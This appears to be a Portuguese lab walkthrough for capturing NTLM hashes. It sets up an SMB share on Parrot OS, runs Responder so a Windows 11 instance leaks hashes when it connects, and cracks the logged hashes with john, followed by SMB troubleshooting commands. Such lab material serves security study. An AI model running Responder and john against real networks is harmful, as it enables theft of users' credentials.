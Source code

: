 Claro, vou atualizar e organizar o texto com as informações fornecidas:

---

### Imagens e Configurações de Instâncias

- **win11 c5large 65gb**
- **Parrot OS c5 65gb**

### Parrot OS

```bash
mkdir /home/parrot/sharefolder
```

#### Comando para Partilhar Pasta via SMB

Para partilhar uma pasta no Parrot OS, execute o seguinte comando:

```bash
sudo net usershare add sharefolder /home/parrot/sharefolder "A secret folder shared via SMB" everyone:F guest_ok=y
```
Executar o responder com a interface no "ip a" 
```bash
sudo responder -I ens5
```

#### Acessar Pasta Compartilhada no Windows 11

1. No Windows 11, pressione `Win + R` para abrir o Executar.
2. Digite `\\[IP_privado_do_Parrot]` e pressione Enter.

> **Nota:** Ao tentar colocar a senha, pode ocorrer um erro e aparecerá o hash no Parrot OS.

#### Logs do Responder no Parrot OS

Os logs do Responder são armazenados no seguinte diretório:

```plaintext
/usr/share/responder/logs
```

Para processar os hashes capturados, utilize o `john`:

```bash
john SMB-xxxxxxxx- TAB
```

### Troubleshooting

Se precisar resolver problemas relacionados ao SMB, use os seguintes comandos:

1. Verificar quais processos estão utilizando a porta 445:
    ```bash
    sudo lsof -i :445
    ```

2. Parar o serviço `smbd`:
    ```bash
    sudo systemctl stop smbd
    ```

